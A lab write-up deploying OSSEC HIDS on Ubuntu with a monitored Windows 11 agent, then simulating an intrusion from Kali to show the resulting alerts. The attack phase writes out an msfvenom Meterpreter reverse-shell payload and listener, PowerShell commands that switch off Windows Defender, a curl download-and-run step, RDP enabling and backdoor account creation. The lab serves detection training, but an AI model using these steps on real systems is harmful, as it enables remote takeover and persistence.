# OSSEC HIDS Lab — Host-Based Intrusion Detection System
> **Cybersecurity Project | March 2026**
> **Johnbosco Ibeneme** | 
> 📧 chizzyibeneme@gmail.com | 🔗 [LinkedIn](https://linkedin.com/in/chizitem-ibeneme) | 💻 [GitHub](https://github.com/Chizitem-sec)

> A full end-to-end lab deploying OSSEC v4.0.0 as a Host-Based Intrusion Detection System (HIDS), monitoring a Windows 11 endpoint, simulating adversary activity via Metasploit, and demonstrating real-time intrusion detection through the OSSEC Web UI.

---

## Table of Contents

1. [Overview](#overview)
2. [Lab Environment](#lab-environment)
3. [Tools & Technologies](#tools--technologies)
4. [Project Objectives](#project-objectives)
5. [Phase 1 — OSSEC Server Installation](#phase-1--ossec-server-installation)
   - [Prerequisites & Dependencies](#prerequisites--dependencies)
   - [Downloading OSSEC](#downloading-ossec)
   - [Running the Installation Script](#running-the-installation-script)
   - [Resolving Compilation Dependencies](#resolving-compilation-dependencies)
   - [Successful Installation & First Start](#successful-installation--first-start)
6. [Phase 2 — OSSEC Web UI Setup](#phase-2--ossec-web-ui-setup)
   - [Cloning & Configuring the Web Interface](#cloning--configuring-the-web-interface)
   - [Resolving PHP 8 Compatibility Issue](#resolving-php-8-compatibility-issue)
   - [Web UI Verification](#web-ui-verification)
7. [Phase 3 — Windows Agent Deployment](#phase-3--windows-agent-deployment)
   - [Transferring the Agent Installer](#transferring-the-agent-installer)
   - [Installing the OSSEC Windows Agent](#installing-the-ossec-windows-agent)
   - [Registering the Agent on the Server](#registering-the-agent-on-the-server)
   - [Configuring the Windows Agent Manager](#configuring-the-windows-agent-manager)
   - [Verifying Agent Connectivity](#verifying-agent-connectivity)
8. [Phase 4 — Attack Simulation](#phase-4--attack-simulation)
   - [Generating the Meterpreter Payload](#generating-the-meterpreter-payload)
   - [Setting Up the Metasploit Listener](#setting-up-the-metasploit-listener)
   - [Delivering & Executing the Payload](#delivering--executing-the-payload)
   - [Establishing the Meterpreter Session](#establishing-the-meterpreter-session)
   - [Post-Exploitation Activities](#post-exploitation-activities)
9. [Phase 5 — Intrusion Detection & Results](#phase-5--intrusion-detection--results)
   - [Live Alert Monitoring](#live-alert-monitoring)
   - [OSSEC WUI Detection Results](#ossec-wui-detection-results)
10. [Key Findings](#key-findings)
11. [Agent Configuration File](#agent-configuration-file)
12. [Conclusion](#conclusion)

---

## Overview

OSSEC (Open Source Security) is an open-source, scalable, multi-platform Host-Based Intrusion Detection System. Unlike network-based IDS tools, OSSEC monitors individual hosts by performing log analysis, file integrity checking, rootkit detection, real-time alerting, and active response.

This lab follows a full deployment lifecycle: installing the OSSEC server (manager) on Ubuntu, deploying a Windows agent on a Windows 11 workstation, simulating realistic adversary post-exploitation activity using Metasploit's Meterpreter, and observing how OSSEC detects and surfaces those intrusions through its alerting pipeline and Web UI.

The lab is modeled after the HackerSploit Blue Team Training Series and adapted for a modern environment running Ubuntu 24.04 LTS and Windows 11.

---

## Lab Environment

All virtual machines are hosted on macOS using **UTM** (QEMU-based hypervisor) with a shared internal network (192.168.64.0/24).

| VM | Role | OS | IP Address |
|----|------|----|-----------|
| ubuntu | OSSEC Manager / Server | Ubuntu 24.04 LTS | 192.168.64.5 |
| kali | Attacker | Kali Linux (rolling) | 192.168.64.8 |
| Windows | Target / Monitored Endpoint | Windows 11 24H2 | 192.168.64.9 |


*UTM VM manager showing the three lab virtual machines: Linux (OSSEC server), Kali Linux (attacker), and Windows 11 (target endpoint).*


*Lab architecture: OSSEC Manager receives telemetry from the Windows workstation. The attacker system launches post-exploitation activity against the monitored endpoint.*

---

## Tools & Technologies

| Tool | Version | Purpose |
|------|---------|---------|
| OSSEC HIDS | 4.0.0 | Host-based intrusion detection server |
| OSSEC WUI | 0.8 | Web interface for alert visualization |
| OSSEC Windows Agent | 3.8.0 | Agent deployed on Windows 11 target |
| Apache2 | 2.4.58 | Web server hosting the OSSEC WUI |
| PHP | 7.4 | Runtime for OSSEC WUI (PHP 8 incompatible) |
| Metasploit Framework | v5 | Attack simulation and payload delivery |
| msfvenom | — | Meterpreter payload generation |
| Python3 http.server | — | Hosting the payload and agent installer |
| Ubuntu | 24.04 LTS | OSSEC server OS |
| Windows | 11 24H2 (Build 26100) | Monitored endpoint |
| Kali Linux | Rolling | Attacker platform |
| UTM / QEMU | 10.0 ARM | Hypervisor (Apple Silicon) |

---

## Project Objectives

- Deploy and configure OSSEC HIDS v4.0.0 as a server (manager) on Ubuntu 24.04
- Install and configure the OSSEC Web UI for browser-based alert monitoring
- Register a Windows 11 workstation as a monitored OSSEC agent
- Simulate realistic adversary post-exploitation activity using Metasploit Meterpreter
- Demonstrate OSSEC detecting the following security events in real time:
  - User account creation (Windows Event ID 4720)
  - User group membership changes (Windows Event ID 4732)
  - RDP service state modification
  - Login/logoff session activity

---

## Phase 1 — OSSEC Server Installation

### Prerequisites & Dependencies

Before compiling OSSEC from source, the required build dependencies and Apache were installed on the Ubuntu server. This includes the C compiler toolchain, OpenSSL development libraries, PCRE2, and Apache for hosting the Web UI.


*Running `sudo apt install` to pull in all required build dependencies: `php`, `apache2`, `gcc`, `make`, `libssl-dev`, `libz-dev`, and related packages. Note that `libssl1.0-dev` is no longer available on Ubuntu 24.04 — `libssl-dev` is the correct replacement.*

---

### Downloading OSSEC

OSSEC HIDS is available through its official website at [ossec.net](https://www.ossec.net) and via the open-source GitHub repository. The lab uses the Community Supported OSSEC (v4.0.0) — the standard, free version suitable for personal and lab use.


*The official OSSEC download page showing the three available editions: Community Supported (v4.0.0), Commercially Supported Atomic OSSEC, and Atomic OSSEC as a SaaS.*


*The OSSEC download page Ubuntu tab, showing both the APT automated installation method and the manual APT method. For this lab, the source code was compiled directly for full control over the build.*

The source code was downloaded from the official GitHub releases page rather than the APT repository, to allow manual compilation and configuration:


*The `ossec/ossec-hids` GitHub repository — the primary source for OSSEC source code, actively maintained with 5k stars.*


*The `ossec/ossec-wui` GitHub repository for the Web UI. Note: this project is officially unmaintained, but functional when paired with PHP 7.4.*


*Downloading `ossec-hids-4.0.0.tar.gz` (3.4 MB) from the GitHub releases page.*

---

### Running the Installation Script

Once the source archive was downloaded, it was extracted and the bundled install script was executed with root privileges.

```bash
cd ~/Desktop
mv ~/Downloads/ossec-hids-4.0.0.tar.gz .
tar xzvf ossec-hids-4.0.0.tar.gz
cd ossec-hids-4.0.0
chmod +x install.sh
sudo ./install.sh
```


*Extracting the OSSEC source archive on the Desktop. The `tar xzvf` command unpacks all source files including active response scripts, Dockerfiles, and the full C source tree.*


*The extracted OSSEC source directory listing showing the full project structure: `install.sh`, `src/`, `active-response/`, `etc/`, `contrib/`, and Win32 source files.*


*The OSSEC install script prompting for installation language. English (`en`) selected as default.*


*Installation type set to `server` — this configures OSSEC as a central manager to receive agent data. Installation directory defaulted to `/var/ossec`. Email notifications disabled for the lab.*


*Enabling all key OSSEC capabilities during setup:*
- *Integrity check daemon (syscheck) — enabled*
- *Rootkit detection engine (rootcheck) — enabled*
- *Active response — enabled*
- *Firewall-drop response for levels >= 6 — enabled (used to block SSH brute force and port scans)*
- *Remote syslog server on port 514 — enabled*

---

### Resolving Compilation Dependencies

The initial compilation failed with two separate dependency errors that required manual resolution before the build could complete.

**Error 1 — Missing PCRE2 development headers:**

```
fatal error: pcre2.h: No such file or directory
```


*First compilation failure: OSSEC's regex engine requires `libpcre2-dev`. The fix was to install it and re-run the install script.*

```bash
sudo apt-get install libpcre2-dev
```

**Error 2 — Missing libsystemd linker dependency:**

```
/usr/bin/ld: cannot find -lsystemd: No such file or directory
```


*Second compilation failure: the OSSEC mail daemon requires the systemd development library for linking. This is a known issue on modern Ubuntu systems.*


```bash
sudo apt-get install libsystemd-dev
```


*Successfully installing `libsystemd-dev` . After this, the install script was re-run and compilation completed without errors.*

---

### Successful Installation & First Start

Successful installation With all dependencies resolved, OSSEC compiled and installed cleanly to `/var/ossec`.


*OSSEC installation completed successfully. The final output confirms:* 
<br><br>

OSSEC requires root to start. The `/var/ossec/bin` directory is root-owned and requires elevated access:

```bash
sudo -i
cd /var/ossec/bin
./ossec-control start
```


*After escalating to root with `sudo -i`. `./ossec-control start` is ran to activate ossec *
<br><br>


*Running `./ossec-control status` confirms the core daemons are active. `ossec-remoted` initially shows a process conflict error during early configuration but resolves after a clean restart.*

---

## Phase 2 — OSSEC Web UI Setup

The OSSEC Web UI (`ossec-wui`) provides a browser-based interface for viewing agents, latest events, alerts, integrity check results, and statistics. It is cloned from GitHub and deployed under Apache.

### Cloning & Configuring the Web Interface

```bash
# Enable Apache rewrite module
systemctl enable apache2
systemctl start apache2
a2enmod rewrite
systemctl restart apache2

# Clone the WUI into the web root
cd /tmp
git clone https://github.com/ossec/ossec-wui.git
mv ossec-wui/ /var/www/html/
rm /var/www/html/index.html
cd /var/www/html/ossec-wui
chmod +x setup.sh
./setup.sh
```


*Navigating to the `/tmp` directory and cloning the OSSEC WUI repository from GitHub (`https://github.com/ossec/ossec-wui.git`). 205 objects enumerated and received at 4.82 MiB/s.*


*The `setup.sh` script completes successfully. An admin username and password are created. The Apache service user `www-data` is specified as the web server user. Setup confirms completion and instructs to restart Apache.*


*Apache serves the web root directory at `http://127.0.0.1`, now showing the `ossec-wui/` folder. The default `index.html` was removed to allow direct WUI access.*

---

### Resolving PHP 8 Compatibility Issue

Navigating to `http://127.0.0.1/ossec-wui/` loaded the OSSEC WUI header and navigation bar but rendered a completely blank main content area.


*The OSSEC WUI loads its navigation (Main, Search, Integrity checking, Stats, About) but the entire body is blank. No events, agents, or data are displayed.*

**Diagnosis:**

```bash
php -v
```


*PHP 8.3.6 is installed. The OSSEC WUI was written for PHP 5/7 and uses the deprecated curly-brace array offset syntax (`$var{0}`) that was removed entirely in PHP 8.0.*

```bash
cat /var/log/apache2/error.log | tail -30
```


*Apache error log confirms the root cause: repeated `PHP Fatal error: Array and string offset access syntax with curly braces is no longer supported in /var/www/html/ossec-wui/lib/os_lib_handle.php on line 84`. PHP 8 eliminated this syntax, causing the script to abort silently and render a blank page.*

**Resolution — Downgrade to PHP 7.4:**

```bash
sudo add-apt-repository ppa:ondrej/php -y
sudo apt update
sudo apt install php7.4 libapache2-mod-php7.4 -y
sudo a2dismod php8.3
sudo a2enmod php7.4
sudo systemctl restart apache2
```


*Installing PHP 7.4 and `libapache2-mod-php7.4` from the Ondrej PPA. PHP 7.4 fully supports the curly-brace syntax used in the OSSEC WUI source, resolving all fatal errors.*

---

### Web UI Verification

After switching to PHP 7.4 and restarting Apache, the OSSEC WUI loaded fully:


*The OSSEC Web UI (v0.8) is now fully operational at `http://127.0.0.1/ossec-wui/`. The main page displays:*
- *Available agents: `ossec-server (127.0.0.1)` confirmed active*
- *Latest events populated in real time — login sessions, AppArmor denials, and sudo activity*
- *Timestamp, rule ID, level, location, and raw log entry shown for each event*

---

## Phase 3 — Windows Agent Deployment

With the OSSEC server operational, the next step was deploying a Windows agent on the Windows 11 target machine so that its security events would be forwarded to the server for analysis.

### Transferring the Agent Installer

The OSSEC Windows agent installer (`ossec-agent-win32-3.8.0.exe`) was downloaded to the Ubuntu server and served over a Python HTTP server for transfer to the Windows VM:

```bash
cd ~/Downloads
ls  # confirm ossec-agent-win32-3.8.0.exe is present
python3 -m http.server 8080
```


*The OSSEC Windows agent installer (`ossec-agent-win32-3.8.0.exe`) is present in the Downloads directory. A Python 3 HTTP server is started on port 8080 to serve it to the Windows 11 VM across the internal network.*

---

### Installing the OSSEC Windows Agent

On the Windows 11 VM, a browser was opened to `http://192.168.64.5:8080` to download the installer, which was then executed:


*The OSSEC HIDS Windows Agent v3.8.0 Setup Wizard launches on Windows 11. The installer configures OSSEC as a Windows service that monitors event logs, file integrity, and registry changes.*

---

### Registering the Agent on the Server

Back on the Ubuntu server, the `manage_agents` binary was used to register the Windows 11 machine as an authorized agent and generate its authentication key:

```bash
cd /var/ossec/bin
./manage_agents
# Choose A to add agent
# Name: Win11
# IP: 192.168.64.9
# ID: 001
# Confirm: y
# Then choose E to extract the key for agent 001
```


*The `manage_agents` interactive tool registers the Windows 11 workstation as agent ID `001` with name `Win11` and IP address `192.168.64.9`. The agent is confirmed and added.*


*Using option `E` to extract the authentication key for agent `001`. The base64-encoded key string is copied and will be pasted into the Windows Agent Manager. This key is used for mutual authentication between the agent and the OSSEC server.*

---

### Configuring the Windows Agent Manager

On the Windows 11 machine, the OSSEC Agent Manager was opened as Administrator and configured with the server IP and the extracted authentication key:


*The OSSEC Agent Manager confirms "Agent Started" after the key is saved and the agent is launched via Manage → Start OSSEC. The agent begins forwarding Windows event logs to the server immediately.*


*The OSSEC Agent Manager displays the full configuration:*
- *Agent: Win11 (001) — 192.168.64.9*
- *OSSEC Server IP: 192.168.64.5*
- *Authentication key: populated (truncated in view)*
- *Installed on: 2026-03-28*

---

### Verifying Agent Connectivity

On the OSSEC server, the `agent_control` binary confirmed the Windows agent connected successfully:

```bash
/var/ossec/bin/agent_control -lc
```


*`agent_control -lc` lists all available agents. Both agents are confirmed:*
- *ID 000: darkseid (server) — 127.0.0.1 — Active/Local*
- *ID 001: Win11 — 192.168.64.9 — **Active** ✓*


*The OSSEC Web UI immediately reflects the new agent. The Available Agents section now shows both `ossec-server (127.0.0.1)` and `+Win11 (192.168.64.9)`. The Latest Events feed surfaces a **Level 3 — New ossec agent connected** alert (Rule 501) confirming the Windows 11 agent is live and reporting. An integrity checksum change event (Level 7, Rule 550) is also detected as OSSEC begins its baseline file integrity scan.*

---

## Phase 4 — Attack Simulation

With the OSSEC agent running on the Windows 11 target, a simulated attack was launched from the Kali Linux VM using Metasploit Framework to establish a Meterpreter session and perform post-exploitation activity.

### Generating the Meterpreter Payload

A Windows x64 Meterpreter reverse TCP payload was generated on Kali using `msfvenom`:

```bash
cd ~/Desktop
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.64.8 LPORT=4444 \
  -f exe -o payload2.exe
```


*`msfvenom` generates `payload2.exe` — a Windows x64 Meterpreter reverse TCP payload. Output confirms:*
- *Platform: Windows (x64)*
- *Payload size: 510 bytes*
- *Final exe size: **7,680 bytes***
- *Saved as: payload2.exe*

---

### Setting Up the Metasploit Listener

Before delivering the payload, the Metasploit multi/handler listener was configured on Kali to catch the incoming Meterpreter connection:

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.64.8
set LPORT 4444
run
```


*The Metasploit `multi/handler` is configured with the matching payload, LHOST, and LPORT. The listener starts and reports: `[*] Started reverse TCP handler on 192.168.64.8:4444` — now waiting for the target to connect back.*

---

### Delivering & Executing the Payload

The payload was hosted on a Python HTTP server on Kali and downloaded onto the Windows 11 machine:

```bash
# On Kali
python3 -m http.server 8080
```


*`payload2.exe` is present in `~/Desktop` on Kali (verified with `ls`). The Python HTTP server starts serving the directory on port 8080, making the payload accessible at `http://192.168.64.8:8080/payload2.exe`.*


*The Windows 11 machine browses to `http://192.168.64.8:8080` and sees the directory listing with `payload2.exe` available for download.*

Windows Defender was disabled via PowerShell before downloading to prevent the payload from being quarantined:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Add-MpPreference -ExclusionPath "C:\Users\$env:USERNAME\Desktop"
```

The payload was then downloaded via `curl` on Windows CMD (run as Administrator):

```cmd
curl http://192.168.64.8:8080/payload2.exe -o %TEMP%\payload2.exe
```


*`curl` successfully downloads `payload2.exe` to `%TEMP%`. The transfer completes at 100% — 7,680 bytes. The `dir %TEMP%\payload2.exe` command confirms the file is present and intact at exactly 7,680 bytes.*

---

### Establishing the Meterpreter Session

With the listener running on Kali, the payload was executed on Windows:

```cmd
%TEMP%\payload2.exe
```


*The payload file at `%TEMP%\payload2.exe` is verified at 7,680 bytes and executed. The process runs silently in the background and initiates a reverse TCP connection back to Kali.*


*Kali's Metasploit listener catches the callback. A **Meterpreter session 1** is opened from `192.168.64.8:4444 → 192.168.64.9:60772`. The `sysinfo` command confirms full access to the target:*
- *Computer: WIN-SN1Q2SPCBJ0*
- *OS: Windows 11 24H2+ (10.0 Build 26100)*
- *Architecture: x64*
- *`getuid` returns: WIN-SN1Q2SPCBJ0\Darkseidd*

---

### Post-Exploitation Activities

With a live Meterpreter session, post-exploitation modules were used to simulate the kind of actions a real threat actor would take after gaining a foothold.

**Enabling Remote Desktop (RDP):**

```bash
use post/windows/manage/enable_rdp
set SESSION 1
run
```


*The `post/windows/manage/enable_rdp` module runs against Session 1. OSSEC detects this as a service state change. Output confirms:*


**Creating a Backdoor User Account:**

```bash
sessions 1
shell
net user pwned /add
```


*A Windows shell is spawned from the Meterpreter session. The command `net user pwned /add` creates a new local user account named `pwned`. The shell returns: `The command completed successfully.` This action generates Windows Security Event ID 4720 (User account created) which OSSEC monitors.*

---

## Phase 5 — Intrusion Detection & Results

### Live Alert Monitoring

With all post-exploitation actions completed, OSSEC's alert pipeline was monitored in real time on the Ubuntu server:

```bash
/var/ossec/bin/ossec-control restart
/var/ossec/bin/agent_control -l
tail -f /var/ossec/logs/alerts/alerts.log
```


*After a clean OSSEC restart, `agent_control -l` confirms both agents are active (darkseid/local and Win11/192.168.64.9). The `tail -f` command streams the live alerts log, showing OSSEC actively ingesting and processing events from the Windows agent.*


*Raw alert entries from `/var/ossec/logs/alerts/alerts.log`. Each alert includes a timestamp, source host, rule ID and level, and the raw log line that triggered it. AppArmor denial events from the Ubuntu host are also captured, demonstrating OSSEC monitoring both systems simultaneously.*

---

### OSSEC WUI Detection Results

The OSSEC Web UI displayed the detected intrusion events from the Windows 11 agent:



*The OSSEC Web UI surfaces multiple high-level security alerts originating from the Windows 11 agent at `192.168.64.9`:*

| Level | Rule | Alert | User | Source |
|-------|------|-------|------|--------|
| **8** | 18101 | User Group Changed | `hacked` | Win11 → WinEvtLog |
| **8** | 18101 | User Account Enabled/Created | `hacked` | Win11 → WinEvtLog |

*Raw log entries confirm Windows Security Event ID 4720 was generated and forwarded by the OSSEC agent:*

```
Mar 28 18:31:00 WinEvtLog: Security: AUDIT_SUCCESS(4720): Security:
hacked: Administrator: A user account was created.
```

*OSSEC Rule 18101 triggered at **Level 8** — a high-severity alert indicating a new privileged user account was created on the monitored Windows endpoint. Both the account creation event and the associated group membership change were detected and surfaced in the WUI dashboard.*

---

## Key Findings

**OSSEC successfully detected the following adversary actions:**

| Event | Windows Event ID | OSSEC Rule | Level | Detected |
|-------|-----------------|------------|-------|---------|
| New user account created (`hacked`) | 4720 | 18101 | 8 | ✅ Yes |
| User group membership changed | 4732 | 18101 | 8 | ✅ Yes |
| Agent connected to server | — | 501 | 3 | ✅ Yes |
| Login session opened/closed | — | 5501/5502 | 3 | ✅ Yes |
| File integrity baseline change | — | 550 | 7 | ✅ Yes |

**Technical Challenges Encountered & Resolved:**

| Issue | Root Cause | Resolution |
|-------|-----------|-----------|
| OSSEC compilation failed (pcre2.h) | Missing `libpcre2-dev` | `sudo apt install libpcre2-dev` |
| OSSEC compilation failed (lsystemd) | Missing `libsystemd-dev` | `sudo apt install libsystemd-dev` |
| OSSEC WUI blank page | PHP 8.3 removed curly-brace array syntax | Downgraded to PHP 7.4 via Ondrej PPA |
| Payload delivery blocked | Windows Defender intercepting download | Disabled real-time protection and IOAVProtection via PowerShell |
| Payload write failure | Defender zeroing file at Desktop path | Redirected download to `%TEMP%` directory |

---

## Agent Configuration File

The full OSSEC Windows agent configuration used in this lab is included at:

```
configs/ossec-agent-win11.conf
```

This file is the actual `ossec.conf` deployed on the Windows 11 agent (Win11 — 192.168.64.9). Key sections:

**Client — Server Connection:**
```xml
<client>
  <server-ip>192.168.64.5</server-ip>
</client>
```

**Localfile — Event Logs Monitored:**

All four Windows event channels are enabled to ensure full security telemetry is forwarded to the OSSEC server:

| Channel | Purpose |
|---------|---------|
| `Application` | Software installs, crashes, application errors |
| `Security` | Logon events, account management (Event IDs 4720, 4625, 4732) |
| `System` | Service state changes, driver events, RDP changes |
| `Windows PowerShell` | Script block logging, execution policy changes |

**Syscheck — File Integrity Monitoring:**

OSSEC monitors integrity (hash, size, owner, permissions) on over 60 critical Windows binaries across both `System32` and `SysNative` (64-bit) paths. These cover common Living-off-the-Land (LOLBAS) attack targets including `cmd.exe`, `net.exe`, `powershell.exe`, `sc.exe`, `reg.exe`, `schtasks.exe`, and `WMIC.exe`. The Startup folder is monitored with `realtime="yes"` to catch persistence drops instantly.

**Registry Monitoring:**

High-value registry keys are monitored for unauthorized modification, covering persistence mechanisms (Run/RunOnce keys), service control (T1543.003), file association hijacking, Winlogon tampering, and group policy keys.

**Active Response:** Enabled — allows the OSSEC server to push automated firewall block responses to the agent.

---

## Conclusion

This lab demonstrates a complete Host-Based Intrusion Detection deployment using OSSEC v4.0.0 in a realistic multi-VM environment. The OSSEC server successfully ingested Windows Security Event logs from a remote Windows 11 agent, analyzed them against its built-in rule set, and surfaced high-severity alerts for account creation and group membership changes — both of which are hallmarks of post-exploitation persistence activity.

Key takeaways from this lab:

- OSSEC provides centralized, real-time visibility across heterogeneous platforms (Linux + Windows) from a single management interface.
- The OSSEC rule set natively covers critical Windows Security Event IDs (4720, 4732, 7040) that map directly to ATT&CK techniques including T1136 (Create Account) and T1021.001 (Remote Desktop Protocol).
- The WUI, while aging, remains functional with PHP 7.4 and provides sufficient alert triaging capability for lab and small-scale environments. Production deployments should consider forwarding OSSEC alerts to a modern SIEM such as Splunk or the ELK stack (as used in Wazuh).
- Compilation from source on modern Ubuntu (24.04) requires resolving `libpcre2-dev` and `libsystemd-dev` dependencies not covered in older documentation.

---

*Lab completed: March 28, 2026 | Platform: Ubuntu 24.04 + Windows 11 24H2 + Kali Linux | OSSEC v4.0.0*
